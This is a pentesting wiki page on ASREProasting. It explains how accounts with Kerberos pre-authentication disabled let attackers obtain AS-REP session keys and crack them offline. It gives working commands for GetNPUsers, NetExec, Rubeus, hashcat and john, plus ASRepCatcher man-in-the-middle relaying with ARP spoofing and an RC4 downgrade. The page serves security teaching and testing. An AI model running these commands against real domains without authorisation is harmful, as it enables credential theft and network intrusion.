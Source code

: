 ```yaml
---
authors: ShutdownRepo, Yaxxine7, mpgn
---
```


# ASREProast

## Theory

The Kerberos authentication protocol works with tickets in order to grant access. A ST (Service Ticket) can be obtained by presenting a TGT (Ticket Granting Ticket). That prior TGT can be obtained by validating a first step named "pre-authentication" (except if that requirement is explicitly removed for some accounts, making them vulnerable to ASREProast).

The pre-authentication requires the requesting user to supply its secret key (DES, RC4, AES128 or AES256) derived from the user password. Technically, when asking the KDC (Key Distribution Center) for a TGT (Ticket Granting Ticket), the requesting user needs to validate pre-authentication by sending a timestamp encrypted with it's own credentials. It ensures the user is requesting a TGT for himself. Once validated, the TGT is then sent to the user in the `KRB_AS_REP` message, but that message also contains a session key. That session key is encrypted with the requested user's NT hash.

Because some applications don't support Kerberos preauthentication, it is common to find users with Kerberos preauthentication disabled, hence allowing attackers to request TGTs for these users and crack the session keys offline. This is ASREProasting.

While this technique can possibly allow to retrieve a user's credentials, the TGT obtained in the `KRB_AS_REP` messages are encrypted cannot be used without knowledge of the account's password.

## Practice

> [!TIP]
> While this attack can be carried out without any prior foothold (domain user credentials), there is no way of finding out users with `Do not require Kerberos preauthentication` set without that prior foothold.

::: tabs

=== UNIX-like

The [Impacket](https://github.com/SecureAuthCorp/impacket) script [GetNPUsers](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetNPUsers.py) (Python) can get TGTs for the users that have the property `Do not require Kerberos preauthentication` set.

```bash
# users list dynamically queried with an LDAP anonymous bind
GetNPUsers.py -request -format hashcat -outputfile ASREProastables.txt -dc-ip $KeyDistributionCenter 'DOMAIN/'

# with a users file
GetNPUsers.py -usersfile users.txt -request -format hashcat -outputfile ASREProastables.txt -dc-ip $KeyDistributionCenter 'DOMAIN/'

# users list dynamically queried with a LDAP authenticated bind (password)
GetNPUsers.py -request -format hashcat -outputfile ASREProastables.txt -dc-ip $KeyDistributionCenter 'DOMAIN/USER:Password'

# users list dynamically queried with a LDAP authenticated bind (NT hash)
GetNPUsers.py -request -format hashcat -outputfile ASREProastables.txt -hashes 'LMhash:NThash' -dc-ip $KeyDistributionCenter 'DOMAIN/USER'
```

This can also be achieved with [NetExec](https://github.com/Pennyw0rth/NetExec) (Python).

```bash
netexec ldap $TARGETS -u $USER -p $PASSWORD --asreproast ASREProastables.txt --kdcHost $KeyDistributionCenter
```

The [kerberoast](https://github.com/skelsec/kerberoast) pure-python toolkit is a good alternative to the tools mentioned above.


=== Windows

The same thing can be done with [Rubeus](https://github.com/GhostPack/Rubeus) from a session running with a domain user privileges.

```powershell
Rubeus.exe asreproast  /format:hashcat /outfile:ASREProastables.txt
```

:::




Depending on the output format used (`hashcat` or `john`), [hashcat](https://github.com/hashcat/hashcat) and [JohnTheRipper](https://github.com/magnumripper/JohnTheRipper) can be used to try [cracking the hashes](../credentials/cracking.md).

```bash
hashcat -m 18200 -a 0 ASREProastables.txt $wordlist
```

```bash
john --wordlist=$wordlist ASREProastables.txt
```

### ASREProast MitM

Another way to conduct AS-REP roasting, without relying on Kerberos pre-authentication being disabled, would be to have a man-in-the-middle position on the network and catch AS-REPs. [ASRepCatcher](https://github.com/Yaxxine7/ASRepCatcher) (Python) can be used for that purpose. It also has the ability to force client workstations to use RC4 (weaker encryption type) by altering the Kerberos negotiation process. The tool natively uses ARP spoofing (which can be disabled if needed).

```bash
# Proxy between the clients and the DC, forcing RC4 downgrade if supported
ASRepCatcher relay -dc $DC_IP

# Disables ARP spoofing (the MitM must be obtained with other means)
ASRepCatcher relay -dc $DC_IP --disable-spoofing

# Passively listen for AS-REP packets, no packet alteration
ASRepCatcher listen
```

## Resources

[https://blog.xpnsec.com/kerberos-attacks-part-2/](https://blog.xpnsec.com/kerberos-attacks-part-2/)

[https://blog.harmj0y.net/activedirectory/roasting-as-reps/](https://blog.harmj0y.net/activedirectory/roasting-as-reps/)

[https://social.technet.microsoft.com/wiki/contents/articles/23559.kerberos-pre-authentication-why-it-should-not-be-disabled.aspx](https://social.technet.microsoft.com/wiki/contents/articles/23559.kerberos-pre-authentication-why-it-should-not-be-disabled.aspx)

[https://en.hackndo.com/kerberos](https://en.hackndo.com/kerberos)
